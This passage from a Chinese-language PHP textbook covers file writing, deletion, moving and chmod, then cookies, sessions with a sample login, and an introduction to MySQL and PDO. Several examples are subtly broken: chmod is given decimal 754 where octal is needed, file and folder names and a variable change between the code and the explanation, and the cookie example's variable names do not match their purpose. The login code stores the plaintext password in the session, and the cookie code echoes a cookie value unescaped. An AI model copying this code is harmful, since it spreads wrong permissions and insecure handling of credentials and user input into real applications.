在 PHP 中写入文件是生成数据文件、活动日志或报表时的常见操作。PHP 提供了多种写入文件的方法，为不同开发需求提供了极大灵活性。本节将探讨 PHP 中写入文件的不同方式。

##### 使用 `fwrite()` 函数

文件成功打开后，可使用 `fwrite()` 函数向其写入数据。

**`fwrite()` 函数**用于向文件写入数据。它通常接受三个参数：文件指针（通常由 `fopen()` 返回）、要写入的字符串，以及可选的要写入字符串的长度。若未指定长度，`fwrite()` 将写入整个提供的字符串。


`fwrite()` 函数返回写入文件的字节数，出错时返回 `FALSE`。它通常与 `fopen()` 函数结合使用，以写入模式打开文件。数据写入后，我们建议使用 `fclose()` 函数关闭文件以释放系统资源。

以下是使用 `fwrite()` 写入文件的示例：

```php
<?php

// 以写入模式打开文件

$file = fopen("filetext/new_file.txt", "w");

// 向文件写入字符串

$data = "This is an example of content to be written to the file.";

fwrite($file, $data);

// 关闭文件

fclose($file);

?>
```

在本例中，`fopen()` 函数以写入模式 ("w") 打开名为 "nouveau_fichier.txt" 的文件。接着，`fwrite()` 函数将存储在 `$data` 变量中的字符串写入该文件。最后，`fclose()` 函数关闭新创建的文件。

##### 使用 `file_put_contents()` 函数

PHP 中的 `file_put_contents()` 函数用于将数据写入文件。它接受要写入的文件路径、要写入的数据以及可能的附加选项作为参数。

使用 `file_put_contents()` 写入文件的示例：

```php
<?php

// 要写入文件的数据

$data = "Content to be written to the file.";

// 目标文件路径

$filename = "filetext/new_file.txt";

// 将数据写入文件

file_put_contents($filename, $data);

?>
```

这段 PHP 代码使用 `file_put_contents()` 函数将数据写入文件。`$data` 变量存储要写入的内容，`$filename` 变量存储将要写入数据的目标文件路径。随后使用 `$data` 和 `$filename` 两个变量作为参数调用 `file_put_contents` 函数。该函数非常实用，因为它将写入数据到文件简化为单行代码。

请注意，如果文件不存在，此函数也会负责创建文件，并处理写入错误。

如果成功运行此代码，你会发现 `$data` 变量中包含的文本已替换指定文件的所有先前内容。但是，如果你希望保留现有内容并在之后追加新文本，有几种选项可用。接下来，我们将使用 PHP 提供的一个名为 `FILE_APPEND` 的常量。此常量允许我们将数据追加到文件末尾，而不是完全覆盖它。

要使用此常量，只需将 `FILE_APPEND` 作为第三个参数添加到 `file_put_contents()` 函数中。这会指示 PHP 将新数据追加到文件末尾，从而保留现有内容。

以下是修改 `file_put_contents()` 函数以使用 `FILE_APPEND` 常量的方法：

```php
<?php

// 要写入文件的数据

$data = "Content to be written to the file.";

// 目标文件路径

$filename = "filetext/new_file.txt";

// 将数据写入文件

file_put_contents($filename, $data, FILE_APPEND);

?>
```

通过此修改，新内容将被添加到文件末尾，而不会覆盖现有数据。

#### 删除文件

PHP 中的文件删除可使用 `unlink()` 函数执行。该函数接受要删除的文件路径作为参数，删除成功返回 `true`，否则返回 `false`。

以下是使用 `unlink()` 函数删除文件的示例：

```php
<?php

// 要删除的文件路径

$filename = "filetext/new_file.txt";

// 删除文件

if (unlink($filename)) {

echo "The file has been deleted successfully.";

} else {

echo "Error: Unable to delete file.";

}

?>
```

结果：


在本例中，`unlink()` 函数用于删除 `$filename` 路径指定的文件。如果删除成功，将显示一条消息指示文件已成功删除。否则，将显示错误消息。

重要的是要注意，删除文件是永久且不可逆的操作。因此，使用 `unlink()` 函数时建议小心谨慎，以免意外删除文件。

#### 高级文件处理

PHP 中的高级文件操作涉及移动文件、更改权限、检查文件是否存在等操作。本节将探讨各种可用于执行这些高级文件操作的 PHP 函数。

##### 移动文件

PHP 中可使用 `rename()` 函数移动文件。此函数允许你重命名或将文件/文件夹移动到新的指定位置。以下是使用 `rename()` 函数移动文件的示例：

让我们在 eBoophp 项目的根目录下创建一个名为 "destination_folder" 的新文件夹。在 "filetext" 目录中，我们已经创建了一个名为 "poeme.txt" 的文件。接下来，我们将把这个文件移动到新的 "destination_folder" 目录中。

但请注意，存放文件的目录必须可写且可读。视操作系统而定，你可能需要授权该目录的读写访问权限。

```php
<?php

// 源文件路径

$source = "filetext/poem1.txt";

// 目标路径

$destination = "new_folder/poem1.txt";

// 移动文件

if (rename($source, $destination)) {

echo "The file has been successfully moved";

} else {

echo "Error: Unable to move file.";

}

?>
```

在本例中，`rename()` 函数用于将 `$source` 路径指定的文件移动到 `$destination` 路径。如果移动成功，将显示一条消息指示文件已成功移动。否则，将显示错误消息。请注意，你可以为移动后的文件指定新名称。

##### 更改权限

PHP 中可使用 `chmod()` 函数更改文件权限。此函数允许你通过以八进制数指定新权限来更改文件的访问权限。每个文件有三组权限，分别针对不同类型的用户：文件所有者、文件关联组和其他用户。每组权限用一个数字表示。


示例：

- **7** (4 + 2 + 1)：表示所有者拥有读、写和执行权限。
- **6** (4 + 2)：表示所有者拥有读和写权限，但无执行权限。
- **5** (4 + 1)：表示所有者拥有读和执行权限，但无写权限。

因此数字 **641** 授予文件所有者读写权限 (6 = 4 + 2)，用户组仅读权限 (4)，其他用户仅执行权限 (1)。

以下是使用 `chmod()` 函数更改文件权限的示例：

```php
<?php

// 文件路径

$filename = "new_folder/poem1.txt";

// 新权限（例如 0644 表示所有者读写，用户组读，其他用户读）

$new_permissions = 754;

// 更改文件权限

if (chmod($filename, $new_permissions)) {

echo "File permissions have been successfully modified";

} else {

echo "Error: Unable to change file permissions";

}

?>
```

在本例中，`chmod()` 函数用于修改 `$filename` 路径指定文件的权限，使用指定的新权限。如果修改成功，将显示一条消息指示文件权限已成功修改。否则，将显示错误消息。`$new_permissions` 变量中指定的值 754 授予所有者所有权限 (7 = 4+2+1)，用户组读和执行权限 (5 = 4+1)，其他用户仅读权限 (4)。

**注意：**

请确保你尝试修改权限的文件实际存在于指定位置，且路径正确。如果你在本地计算机上运行此代码，请确保你的用户拥有修改指定目录中文件权限所需的权限。

##### 文件存在性检查


### 在 PHP 中检查文件是否存在

在 PHP 中检查文件是否存在可以使用 `file_exists()` 函数。该函数检查指定位置是否存在文件或目录。以下是使用 `file_exists()` 函数检查文件是否存在的示例：

```php
<?php

// 文件路径
$filename = "new_folder/poem1.txt";

// 检查文件是否存在
if (file_exists($filename)) {
    echo "The file exists";
} else {
    echo "The file does not exist";
}

?>
```

在本例中，`file_exists()` 函数用于检查 `$filename` 路径指定的文件是否存在。如果文件存在，则显示一条指示文件存在的消息。否则，显示一条指示文件不存在的消息。

#### 总结

在本章专门介绍 PHP 中图像和文件操作的内容里，我们深入探讨了这门编程语言提供的强大功能。我们详细探讨了加载、显示、读取和写入文件所涉及的各个步骤，以及移动和删除文件的高级方法。通过掌握这些基本技能，你现在已具备创建动态、交互式 Web 应用程序的能力，能充分发挥图像和文件的潜力。凭借你对这些概念的深入理解和对 PHP 工具的熟练掌握，你已准备好迎接最苛刻的 Web 开发挑战。

### 第 9 章：Session 与 Cookie 管理

Session 和 Cookie 是开发交互式和动态 Web 应用程序的关键要素。它们存储并维护关于服务器和客户端的信息，使个性化用户体验和跟踪浏览活动变得更加容易。

Session 和 Cookie 在 Web 开发中被广泛用于各种功能，包括：

*   **认证与授权管理**：Session 和 Cookie 用于维护用户登录状态并限制对网站某些部分的访问。
*   **临时数据存储**：Session 用于存储执行特定功能所需的临时数据，例如在线商店中的购物车。
*   **个性化用户体验**：通过存储用户偏好（如语言、主题等），Cookie 使你能够个性化浏览体验。
*   **跟踪浏览活动**：Cookie 用于收集用户与网站交互的数据，使我们能够分析趋势并个性化内容。

在本章中，我们将详细探讨 PHP 中 Cookie 和 Session 的管理，以及与其使用相关的最佳实践和安全注意事项。

#### Cookie 管理

Cookie 是由 Web 浏览器存储在用户计算机上的小型文本文件。它们在现代网站的运行和个性化中发挥着关键作用。Cookie 使网站能够记住用户偏好、跟踪其活动并提供个性化体验。

在本节中，我们将详细探讨 PHP 中的 Cookie 管理，包括 Cookie 的创建、读取、修改和删除，以及 Web 开发中使用 Cookie 相关的良好安全实践。

一般来说，Web 浏览器与 Web 服务器之间交换 Cookie（存储在客户端，在服务端访问和操作以实现各种功能）的过程可以总结如下：

1.  过程始于 Web 浏览器向 Web 服务器发送 HTTP 请求以访问页面或执行特定操作。
2.  Web 服务器通过发送 HTTP 头（包括 Cookie）来响应此请求。Cookie 是存储在浏览器中的小段数据，使得在用户与网站交互时能够跟踪和识别用户。
3.  浏览器将这些 Cookie 存储在客户端，并将其与服务器指定的域和路径关联。
4.  Web 服务器向浏览器发送 HTTP 响应，其中可能包含要显示或处理的其他数据。
5.  当浏览器向服务器发送新的 HTTP 请求时（例如，访问网站上的其他页面），它会自动包含与网站域和路径关联的 Cookie。
6.  服务器使用 PHP 中的 `$_COOKIE` 超全局变量检索这些服务端 Cookie，从而允许在服务端脚本中根据需要访问和操作它们。
7.  可以在服务端操作 Cookie 以实现各种功能，如用户认证跟踪、内容个性化、偏好跟踪等。
8.  随着浏览器发送的每个后续请求，相关的 Cookie 都会被自动包含，使服务器能够继续使用它们来个性化用户体验。

下图总结了客户端 Web 浏览器与 Web 服务器之间的 Cookie 交换过程：


简而言之，Cookie 用于存储客户端信息并随每个请求将其传输到服务器，使服务器能够维护应用程序状态并个性化用户体验。

##### 创建和发送 Cookie

要在 PHP 中创建 Cookie，请使用 `setcookie()` 函数。该函数接受多个参数，包括 Cookie 名称、值、有效期（可选）、路径（可选）和域（可选）。


*   **name**：Cookie 的名称。
*   **value**：与 Cookie 关联的值。
*   **expire**：可选，以 Unix 时间戳指定 Cookie 的过期日期。如果未指定，Cookie 将在会话结束时过期。
*   **path**：可选，指定 Cookie 可用的服务器路径。默认情况下，它在整个网站可用。
*   **domain**：可选，指定 Cookie 可用的域。默认情况下，它可用于当前域。
*   **secure**：可选，指定 Cookie 是否应仅通过 HTTPS 传输。默认设置为 false。
*   **httponly**：可选，指定 Cookie 是否仅可通过 HTTP 访问，而不能通过 JavaScript 访问。默认设置为 false。

Cookie 可以存储各种类型的信息，如会话标识符、用户偏好、语言设置、跟踪数据等。以下是一个可以存储在 Cookie 中的实际示例：

假设一个网站允许用户从一系列主题中选择他们喜欢的主题。一旦用户选择了主题，网站就可以将此信息存储在 Cookie 中，以便下次访问时，他们将看到之前选择的相同主题。

在 Cookie 中存储首选主题的代码示例：

```php
<?php

// 设置 Cookie 名称和值
$name = "user";
$theme_value = "Alice Dupont";

// 设置 Cookie 生命周期（1 小时）
$expiration = time() + 3600; // 当前时间戳 + 3600 秒（1 小时）

// 设置 Cookie 有效的路径（整个网站）
$path = "/";

// 设置 Cookie 有效的域（当前域）
$domain = "";

// 使用 setcookie() 创建 Cookie
setcookie($name, $theme_value, $expiration, $path, $domain);

// 显示确认消息
echo "The cookie has been created successfully";

?>
```

在本例中：

*   Cookie 名称设置为 "user"，其值设置为 "Alice Dupont"。
*   Cookie 从创建时起 1 小时（3600 秒）后过期。
*   路径定义为 "/"，表示 Cookie 在整个网站有效。
*   域留空，意味着 Cookie 对当前域有效。
*   最后，使用 `setcookie()` 函数按指定参数创建 Cookie。
*   执行此代码后，将创建一个名为 "user"、值为 "Alice Dupont" 的 Cookie，有效期为一小时。

结果：


##### 读取 Cookie


创建的 Cookie 会自动包含在 `$_COOKIE` 超全局变量中。要在 PHP 中读取 Cookie，可以使用 `$_COOKIE` 超全局变量。以下是读取现有 Cookie 的方法：

```php
<?php

 // 检查 Cookie 是否存在

 if(isset($_COOKIE["user"])) {

 // 获取 "user" Cookie 的值

 $user = $_COOKIE["user"];

 // 显示 Cookie 值

 echo "Hello, " . $user . "! You're back.";

 } else {

 // 如果 Cookie 不存在，显示默认消息

 echo "Welcome, unknown visitor!";

 }

?>
```

在本例中：

- 我们首先使用 `isset($_COOKIE["user"])` 检查 "user" Cookie 是否存在。
- 如果 Cookie 存在，我们使用 `$_COOKIE["user"]` 获取其值并将其赋给 `$user` 变量。
- 接下来，我们使用 Cookie 值显示个性化欢迎消息，如果 Cookie 不存在则显示默认消息。

这种方法的价值在于个性化用户体验。通过使用 Cookie，网站可以识别回头访客并为他们提供个性化的欢迎，这可以改善他们在网站上的体验并增强参与度。它还可以使保留某些用户偏好或登录数据变得更加容易，在后续访问网站时提供更流畅、更便捷的体验。

结果：


#### 修改和删除 Cookie

要修改现有 Cookie，只需创建一个与要修改的 Cookie 同名的新 Cookie 即可。这将使用指定的新值覆盖旧 Cookie。只需确保指定与原始 Cookie 相同的选项，例如路径和有效期，以避免任何不一致。

例如，如果您想修改之前创建的 "user" Cookie，可以按如下方式操作：

```php
<?php

 setcookie('user', 'theme_fonce', time() + 72000, '/');

?>
```

此代码通过将现有 user Cookie 的值替换为 "theme_fonce" 来修改它。修改后的 Cookie 将从执行那一刻起有效 72,000 秒（20 小时），并且可从域根目录访问。

要删除 Cookie，可以将其值设为空并指定一个过去的过期日期。这会告诉浏览器删除该 Cookie。同样，请确保指定与原始 Cookie 相同的选项，以确保 Cookie 被正确删除。

```php
<?php

 // 设置过去的过期日期以删除 Cookie

 setcookie('user', '', time() - 3600, '/');

?>
```

在本例中，我们通过将 user Cookie 的值设为空字符串并指定一个过去的过期日期来删除它。这将导致 Cookie 在用户浏览器上立即过期，从而永久删除它。

#### Cookie 安全

重要的是要注意，Cookie 存储在客户端，用户可以对其进行修改。因此，请勿在 Cookie 中存储敏感信息，并务必在应用程序中使用前验证和清理所有数据。

Cookie 管理是现代 Web 开发的一个重要方面，它提供了一种在用户浏览器上存储临时信息的便捷方式。然而，了解其局限性并安全地使用它们以保证应用程序数据的完整性和机密性至关重要。

#### 会话管理

PHP 中的会话是在不同 HTTP 请求之间维护 Web 应用程序状态的基本技术。会话是在浏览网站时存储特定用户信息的一种方式，例如用户身份验证、购物车、用户偏好等。与 Cookie 不同，会话数据存储在服务器上，这使其更加安全，因为它不会暴露给客户端。

##### 会话管理流程

PHP 会话管理流程包含以下步骤：

**会话启动**：在使用会话之前，需要通过调用 `session_start()` 函数来启动会话。此函数初始化一个新会话，如果会话已存在则恢复现有会话。

**在会话中存储数据**：会话启动后，可以使用 `$_SESSION` 关联数组在会话中存储数据。存储在 `$_SESSION` 中的数据在会话期间可用于网站的所有页面。

**访问会话数据**：要访问存储的会话数据，只需使用带有适当键的 `$_SESSION` 数组来访问对应的值。

**关闭会话**：当您完成会话工作后，可以通过调用 `session_destroy()` 函数来关闭它。这将销毁所有现有的会话数据。

会话的优势：

**安全性**：会话数据存储在服务器上，比客户端 Cookie 更安全。

**持久性**：会话数据在会话期间一直可用，即使用户在网站的不同页面间导航。

**灵活性**：会话可以存储大量数据，使其成为管理敏感或复杂信息的理想选择。

##### 实际示例

为了更好地理解会话的工作原理，让我们以一个带有会员区的网站为例。每个用户必须登录才能访问此区域，并且必须确保用户在整个网站会话期间保持已识别状态。

为此，我们需要为用户提供一个登录表单：

让我们首先创建一个新的 `connetion.php` 文件，其中包含以下表单：

```html
<!DOCTYPE html>
<html lang="en">

<head>

<meta charset="UTF-8">

<meta name="viewport" content="width=device-width, initial-scale=1.0">

<title>Connect to member area</title>

</head>

<body>

<h2>Connect to member area</h2>

<form action="verification.php" method="post">

 <div>

 <label for="username">Username:</label>

 <input type="text" id="username" name="username">

 </div>

 <br>

 <div>

 <label for="password">Password:</label>

 <input type="password" id="password" name="password">

 </div>

 <div>

 <input type="submit" value="Login">

 </div>

</form>

</body>

</html>
```

此表单通过 POST 方法将用户输入的数据发送到名为 "verification.php" 的验证脚本。它包含两个字段：一个用于用户名（"text" 类型），一个用于密码（"password" 类型）。

"verification.php" 文件将负责验证用户提供的信息，以授权或拒绝访问会员区。但为了本示例的目的，我们的目标是解释会话如何工作，以便数据可以在页面间传递。

为了实践我们的示例，我们创建一个名为 "verification.php" 的文件，在其中为测试目的定义一个基本的用户名和密码。理想情况下，在实际场景中，我们会查询数据库以验证用户提供的信息的真实性。

##### 启动和存储会话数据

```php
<?php

 // 用于测试的基本用户名和密码

 $valid_username = "toto";

 $valid_password = "azerty123";

 // 检查表单数据是否已发送

 if (isset($_POST['username']) && isset($_POST['password'])) {

 // 检查用户名和密码是否正确

 if ($valid_username == $_POST['username'] && $valid_password == $_POST['password']) {

 // 启动会话

 session_start();

 // 保存会话参数

 $_SESSION['username'] = $_POST['username'];

 $_SESSION['password'] = $_POST['password'];

 // 显示欢迎消息和会员区链接

 echo "Logged in as " . $_SESSION['username'] . "<br />";

 echo 'You can access the members\' area: <a href="members.php">Link to members\' page</a>';

 } else {

 // 如果用户名或密码不正确，显示错误消息

 echo 'Sorry, the username or password is incorrect.';

 }

 } else {

 // 如果未发送表单数据，显示消息

 echo 'You need to go to the login page.';

 }

?>
```

以下是代码的详细解释：

*   **初始化变量：**


`$valid_username` 和 `$valid_password` 被定义为连接的有效用户名和密码。在实际场景中，这些值通常会根据数据库或其他认证系统进行核对。

##### 检查表单数据

`if` 条件 (`isset($_POST['username']) && isset($_POST['password'])`) 检查表单数据是否已通过 `POST` 方法提交。

##### 检查登录名和密码

如果表单数据已提交，代码会检查用户名和密码是否与先前定义的有效值相符。这是通过条件 `if ($valid_username == $_POST['username'] && $password == $_POST['password'])` 完成的。

##### 启动会话

如果登录名和密码正确，则使用 `session_start()` 启动会话。随后，用户信息通过 `$_SESSION['username']` 和 `$_SESSION['password']` 存储在会话变量中。

##### 消息显示

如果登录名和密码正确，将显示欢迎消息，包含已登录用户的姓名以及一个指向会员专属页面的链接。


如果用户 ID 或密码不正确，将显示错误消息以告知用户。


##### 错误情况处理

如果未提交表单数据，将显示一条消息提示用户前往登录页面。

这段代码展示了一个在 PHP 中进行登录、密码验证和会话管理的简单示例。

#### 访问会话数据

在 `members.php` 页面中（用户登录后将被重定向至此），你应该通过验证其会话信息是否存在来检查用户是否已登录。如果用户已登录，则可以显示会员专属内容。

以下是你可以在 `members.php` 页面中包含的示例：

```php
<?php

session_start();

// 检查用户是否已登录
if (isset($_SESSION['username']) && isset($_SESSION['password'])) {
    // 显示会员专属内容
    echo 'Welcome to the members\' area, ' . $_SESSION['username'];
    echo '<br>';
    echo 'Members-only content...<br />';
    echo '<a href="logout.php">Log out</a>'; // 断开连接的链接
} else {
    // 如果未登录，将用户重定向到登录页面
    header('Location: login.php');
    exit();
}

?>
```

这段 PHP 代码检查用户是否作为会员登录。其工作原理如下：

第一步是通过调用 `session_start()` 函数启动会话，该函数必须在代码最开始处声明。这使得访问存储的会话信息成为可能。

接下来，代码通过验证 `$_SESSION` 数组中 "username" 和 "password" 键的存在性，来检查用户的会话信息是否存在。这些键包含用户的身份识别信息，这些信息是在连接时存储的。

如果会话信息存在，则意味着用户已登录。代码随后使用存储在 `$_SESSION['username']` 中的值显示个性化欢迎消息，该值代表已登录用户的标识符。

接下来，代码显示会员专属内容。在本例中，这只是一条指示这是会员专属内容的消息，但在实际应用中，你可以显示各种专属于会员的功能或信息。

最后，代码显示一个“注销”链接，将用户重定向到注销页面 (`logout.php`)。该页面负责销毁会话，允许用户登出。


如果会话信息不存在，则用户未登录。在这种情况下，代码会使用 `header('Location: login.php')` 函数自动将用户重定向到登录页面 (`login.php`)。这确保只有已登录用户才能访问会员专属内容。

#### 注销并关闭会话

最后一步是注销用户并销毁会话。在 PHP 中具体操作如下：

创建一个名为 `logout.php` 的页面来管理注销过程。

*   在此页面上，使用 `session_start()` 启动会话以访问会话信息。
*   然后使用 `session_unset()` 函数销毁与用户关联的会话变量。
*   然后使用 `session_destroy()` 函数彻底销毁当前会话，删除与用户关联的所有会话数据。

销毁会话后，使用 `header('Location: index.php')` 函数将用户重定向到另一个页面，例如登录页或主页。

`logout.php` 页面的代码如下所示：

```php
<?php

session_start(); // 我们启动会话
session_unset(); // 我们销毁我们的会话变量
session_destroy(); // 销毁我们的会话

// 将访问者重定向到主页
header('Location: index.php');

?>
```

这段代码能有效地让用户断开连接并将他们重定向到主页。但值得注意的是，`session_unset()` 函数是可选的，因为 `session_destroy()` 已经删除了所有会话数据。在大多数情况下，仅使用 `session_destroy()` 就足够了。

#### 结论

在本章中，我们详细探讨了 PHP 中的 Cookie 和会话管理。我们学习了如何使用 Cookie 存储关于用户浏览器的信息，从而实现个性化用户体验和跟踪网站访客活动。我们还学习了会话，它提供了一种安全的方式来存储每个活跃用户的临时服务器端数据，对于管理认证和维护应用程序状态特别有用。

通过理解创建、读取、修改和删除 Cookie 的机制，以及创建和销毁会话的机制，PHP 开发人员可以在其 Web 应用程序中实现高级功能，例如用户会话管理、内容个性化、购物车管理等。

必须注意的是，Cookie 和会话管理必须谨慎进行，以保证用户数据的安全性和机密性。通过遵循良好的开发实践并使用适当的 PHP 函数，开发人员可以创建健壮、安全的 Web 应用程序，提供流畅、可靠的用户体验。

简而言之，理解 Cookie 和会话管理对于任何希望创建交互式和动态 Web 应用程序的 PHP 开发人员来说都是基础。通过掌握这些概念，开发人员可以创建更高效、更用户友好的网站。

### C 部分：MySQL 数据库管理

数据管理是现代 Web 开发的基础支柱。鉴于此，PHP 和 MySQL 是创建动态、交互式 Web 应用程序的必备工具。本书的 C 部分重点关注数据库在 PHP 项目中的高效集成，特别强调 MySQL。

在本部分中，我们将深入探讨在 PHP 中使用数据库所涉及的关键概念。我们将首先了解如何从 PHP 脚本建立到 MySQL 数据库的安全连接，重点关注避免潜在漏洞的良好安全实践。

然后我们将学习如何使用 SQL 查询从数据库查询数据。我们将介绍各种数据操作技术，包括使用 PHP 脚本在 MySQL 数据库中插入、选择、更新和删除数据。

通过本部分的学习，你将深入理解数据库在 PHP 项目中的集成，增强开发健壮、安全、高性能 Web 应用程序的技能。

### 第 10 章：数据库简介及连接 MySQL 数据库

数据库在动态、交互式 Web 应用程序的开发中发挥着至关重要的作用。它们能够高效地存储、组织和操作大量数据，为我们的应用程序提供坚实的结构。在本章中，我们将探讨数据库的工作原理，重点介绍如何从 PHP 脚本连接到 MySQL 数据库。本章将分为三个部分：


##### 理解数据库

在第一部分中，我们将深入探讨数据库的基本概念。我们将了解什么是数据库、它的不同类型（关系型、NoSQL 等），以及表、列、记录和键等关键要素。

##### MySQL 简介

MySQL 是 Web 开发领域中最流行、应用最广泛的关系型数据库管理系统之一。在本节中，我们将认识 MySQL，探索其历史、架构和关键特性。

##### PHP 连接 MySQL 数据库

现在我们已经对数据库和 MySQL 有了基本的了解，将转向实践环节，学习如何在 PHP 和 MySQL 数据库之间建立连接。我们将介绍配置连接参数、打开和关闭连接所需的步骤，以及保护凭据安全的良好安全实践。

总之，本章将为我们在 PHP 应用程序中进一步探索数据库集成奠定基础，提供建立安全高效的 MySQL 数据库连接所需的知识和技能。

##### 理解数据库

在深入探讨使用 PHP 进行数据库管理的技术细节之前，理解数据库如何工作的基本原理至关重要。

###### 什么是数据库？

数据库是一个有组织的数据集合，其结构旨在便于访问、高效处理和一致更新。它被设计用于永久存储信息，以便日后检索和使用。

###### 数据库类型

存在许多不同类型的数据库，每种都有其特定的特征和用途。主要的两种类型是关系型数据库和 NoSQL 数据库。

*   **关系型数据库**：这些基于关系模型，使用表来存储数据。表之间的关系通过主键和外键建立，从而能够一致地管理结构化数据。
*   **NoSQL 数据库**：这些采用更灵活、结构更少的数据存储方法。它们常用于需要可扩展性以及非结构化或半结构化数据管理灵活性的应用程序。


###### 关系型数据库的关键要素

在关系型数据库中，数据被组织成不同的实体，如表、列和记录。以下是关系型数据库的主要要素：

*   **表**：这些代表关联的数据集。每个表由行和列组成。
*   **列**：这些定义了构成表的各种属性或数据字段。
*   **记录**：它们代表存储在表中的单个数据，每条记录对应表中的一行。
*   **主键和外键**：这些用于建立表之间的关系。主键是表中每条记录的唯一标识符，而外键用于引用另一张表中的主键。


###### 数据处理

数据库中的数据操作涉及插入、更新、检索和删除数据。这些操作使用 `SQL`（结构化查询语言）查询来执行，这是一种专门设计用于与关系型数据库交互的编程语言。

简而言之，理解数据库对任何开发人员都至关重要，因为它为有效设计和管理复杂信息系统提供了必要的基础。

###### 不同的数据库管理系统 (DBMS)

数据库管理系统 (DBMS) 是旨在管理数据库的软件程序，确保其创建、操作、存储和访问。存在几种类型的 DBMS，每种都有其自身的特征和功能。主要的 DBMS 类型包括：

*   **关系型 DBMS**：此类 DBMS 基于关系模型，使用 `SQL` 语言管理数据。流行的关系型 DBMS 示例包括 `MySQL`、`PostgreSQL`、`Oracle Database` 和 `Microsoft SQL Server`。
*   **NoSQL DBMS**：NoSQL DBMS 采用不同于关系型 DBMS 的数据管理方法。它们旨在管理非结构化或半结构化数据，并提供高可扩展性。NoSQL DBMS 的示例包括 `MongoDB`、`Cassandra` 和 `Redis`。
*   **面向对象 DBMS**：这些 DBMS 旨在存储和操作对象，而非表格数据。它们为建模复杂数据提供了更灵活的方法。面向对象 DBMS 的示例包括 `db4o` 和 `ObjectDB`。
*   **内存型 DBMS**：这些 DBMS 将数据完全存储在内存中，从而实现极快的数据访问。它们用于需要高性能的应用程序。内存型 DBMS 的示例包括 `Redis` 和 `Memcached`。

每种类型的 DBMS 都有其优缺点，选择合适的 DBMS 取决于应用程序的具体需求和技术限制。就本书而言，我们将主要专注于作为关系型 DBMS 的 `MySQL`。`MySQL` 是一种广泛使用的开源 DBMS，以其可靠性、性能和易用性而闻名。专注于 `MySQL`，我们将在使用 PHP 进行 Web 开发的背景下，探索其用于高效数据库管理的用法和特性。

在本书中，我们已经安装了 `XAMPP Server`，这是一个包含 `Apache`、`MySQL`、`PHP` 和 `Perl` 的 Web 开发包。这意味着 `MySQL` 已经包含在 `XAMPP` 的安装中。

事实上，通过使用 `XAMPP`，你的系统上不仅安装了 `MySQL`，还安装了 `Apache` 和 `PHP`，使你能够在本地创建和测试 Web 应用程序。

##### MySQL 简介

###### MySQL 介绍

`MySQL` 是一种广泛用于 Web 开发的开源关系型数据库管理系统。它最初由 `MySQL AB` 于 1995 年开发，自 2010 年被收购后，现由 `Oracle Corporation` 维护。`MySQL` 以其可靠性、性能和易用性而闻名，使其成为全球开发人员和企业的热门选择。

###### MySQL 架构

`MySQL` 采用客户端-服务器架构。`MySQL` 服务器是管理数据库的核心组件，而客户端连接到服务器以访问和操作数据。`MySQL`。


在此架构中：

*   **客户端**：代表与 `MySQL` 服务器交互以发送请求并接收结果的客户端应用程序。
*   **MySQL 服务器**：处理客户端连接，解析并执行 `SQL` 查询，管理安全性、数据访问和事务。
*   **数据库存储**：数据在磁盘上物理存储的位置。

这种客户端-服务器架构是 `MySQL` 等关系型数据库管理系统的典型特征。客户端将 `SQL` 查询发送给 `MySQL` 服务器，后者执行查询，检索结果并将其返回给客户端。

###### MySQL 的优势

`MySQL` 的优势包括其稳定性、高性能、与许多平台和编程语言的兼容性、适应不同规模应用程序的灵活性、处理大量数据的可扩展性，以及其活跃的社区和支持生态系统。

###### MySQL 的局限性

尽管 `MySQL` 是一个健壮的数据库管理系统，但它确实存在某些局限性。例如，某些高级功能（如事务管理和集群功能）可能不如其他数据库管理系统那样完善。此外，`MySQL` 的免费版本可能在硬件资源和可用功能方面有所限制。

###### MySQL 的用途

`MySQL` 广泛应用于各个领域，包括 Web 应用程序、内容管理系统 (CMS)（如 `WordPress` 和 `Drupal`）、数据分析应用程序、移动应用程序等。其通用性和健壮性使其成为各种项目和应用程序的热门选择。

##### PHP 连接 MySQL 数据库


现在我们已经对数据库和 MySQL 有了基本的了解，接下来将进入实战部分：从 PHP 脚本连接到 MySQL 数据库。事实上，要想查询数据库，首先必须与该数据库建立连接。在本书的这一部分，我们将学习建立安全连接、配置连接参数、打开和关闭连接所涉及的步骤，以及保护我们凭据的良好安全实践。

简而言之，本节将为我们提供理解并建立到 MySQL 数据库的安全连接所需的知识和技能，为我们进一步探索 PHP 应用程序中的数据库集成奠定基础。

通常有两种主要方法用于管理到 MySQL 数据库的连接：使用 `mysqli_` 扩展和使用 `PDO` (PHP Data Objects) 对象。两者都提供了建立安全连接和与 MySQL 数据库交互的强大功能。

第一种方法是 `mysqli_` 扩展，它提供了一个特定于 MySQL 的接口，包含诸如用于建立连接的 `mysqli_connect()`、用于执行 SQL 查询的 `mysqli_query()` 以及用于检索结果的 `mysqli_fetch_array()` 等函数。该扩展直接集成在 PHP 中，为与 MySQL 的交互提供了高性能。

第二种方法是 `PDO` 扩展，它为处理不同数据库（包括 MySQL）提供了一个更通用的接口。`PDO` 提供了更通用的数据库抽象层，使得在必要时更容易切换数据库。它还支持预处理语句，能提供更强的防 SQL 注入安全性。

在 `mysqli_` 和 `PDO` 之间进行选择，通常取决于开发者的偏好和项目的具体需求。这两种方法都被广泛使用，并为在 PHP 中与 MySQL 交互提供了全面的功能。在本书中，我们将重点介绍 `PDO` 对象的使用。

##### 什么是 PDO？

`PDO` (PHP Data Objects) 是 PHP 5 中引入的一个扩展，它提供了一个数据抽象层，这意味着它不专门绑定 MySQL，且独立于所使用的数据库。得益于 `PDO`，代码变得非常易于移植，仅通过修改连接行，即可从 `MySQL` 数据库切换到 `SQLite`、`PostgreSQL`、`Oracle` 等其他数据库。

`PDO` 提供了许多优势，包括可移植性、易用性和速度。确实，该扩展为与不同数据库交互提供了统一的接口，简化了代码的开发和维护。

##### PDO 扩展包含三个主要类：

###### `PDO` 类
创建代表数据库连接的对象，并提供用于基本操作的方法，例如发送查询、创建预处理语句和管理事务。

###### `PDOStatement` 类
代表一条预处理语句或 SELECT 查询结果。其方法用于管理预处理语句和读取查询结果。

###### `PDOException` 类
允许你使用对象来管理和显示错误信息，从而更容易调试和管理应用程序中的错误。

##### 数据库连接过程

使用 `PDO` 连接到 MySQL 数据库的过程包含两个主要步骤：

1.  **创建 `PDO` 类的实例**：首先，通过指定数据库连接参数（如主机名、数据库名、用户名和密码）来创建 `PDO` 类的实例。
2.  **错误处理**：建议配置 `PDO`，使其在连接或查询执行期间发生错误时生成异常。这使得可以在代码中适当地处理错误。

为了具体说明这一过程，让我们以创建一个 `library` (图书馆) Web 应用程序为例。在创建相应的数据库之前，先在你的 Apache 服务器上创建一个名为 `library` 的目录，即如果你按照第 1 章的说明安装了 XAMPP，则在其 `htdocs` 文件夹中创建。

###### 创建 "library" 数据库

